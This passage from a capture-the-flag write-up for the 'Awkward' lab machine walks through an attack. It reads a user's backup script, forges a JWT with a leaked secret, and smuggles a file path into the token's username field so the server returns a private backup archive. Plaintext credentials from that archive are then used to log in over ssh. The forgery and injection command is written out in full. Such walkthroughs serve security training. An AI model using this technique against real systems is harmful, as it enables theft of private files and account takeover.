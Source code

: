 ```
fi
```

We see a custom alias!
```
# custom
alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'
```

Let's check it out
```
#!/bin/bash
mkdir /home/bean/Documents/backup_tmp
cd /home/bean
# archive '/home/bean' in '/home/bean/Documents/backup_tmp'
tar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .
date > /home/bean/Documents/backup_tmp/time.txt
# go to 'backup_tmp'
cd /home/bean/Documents/backup_tmp
# archive 'backup_tmp' in 'backup'
tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
rm -r /home/bean/Documents/backup_tmp
```

Looks like we have a directory called `/home/bean/Documents/backup_tmp`
- with a `tarball`! can we `curl` it?
- let's `curl` the `base url` with the `--header` flag with `token=<jwt>` and have it `-o` output to `backup.tar.gz`
- this means we need to create a new `jwt` with the path to the `tarball` as `username`

Here's the request:
```
curl http://hat-valley.htb/api/all-leave --headers "Cookie: token="$(python3 -c "import jwt; print(jwt.encode({\"username\": \"/' /home/bean/Documents/backup/bean_backup_final.tar.gz 'test\", \"iat\":1666598140}, \"123beany123\", algorithm=\"HS256\"))") --output bean_backup_final.tar.gz
```

We `tar xpvf` the contents, and start looking through the data

---

In `.config/xpad/content-DS1ZS1`, we get bean's user/pass combo:
```
Username: bean.hill
password: 014mrbeanrules!#P
```

We also see a note to `Make sure to use this everywere` - will keep that in mind!

Let's `ssh bean@10.10.11.185` with the above password

And we're in! We also can `cat` out the user flag in `user.txt`!
```
bean@awkward:~$ cat user.txt 
b2806835e9dc70e40ef987f84ff79649
bean@awkward:~$ 
```


